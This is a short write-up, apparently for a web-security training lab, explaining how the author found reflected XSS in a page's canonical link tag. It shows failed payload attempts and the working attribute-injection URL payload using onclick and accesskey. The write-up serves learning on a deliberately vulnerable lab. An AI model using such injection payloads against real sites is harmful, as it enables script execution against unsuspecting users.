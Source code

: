 I saw that whatever I put after `/?` in the URL is reflected in the canonical tag:

`.web-security-academy.net/?5`

From page source:

```html
<!DOCTYPE html>
<html>
    <head>
        ...
        <link rel="canonical" href='...web-security-academy.net/?5'/>
        ...
    </head>
```

So I gave this link a try:

`web-security-academy.net/?' href='alert()' accesskey='x'`

but it didn't work, probably because `href` is already defined.  
So I tried `onclick` instead:

`web-security-academy.net/?' onclick='alert()' accesskey='x'`

But still no success. I looked in the page source and saw this:

`web-security-academy.net/?'%20onclick='alert()'%20accesskey='x''`

Which means the spaces probably mess this up, so I removed them and solved the lab:

`/?'onclick='alert()'accesskey='x'`
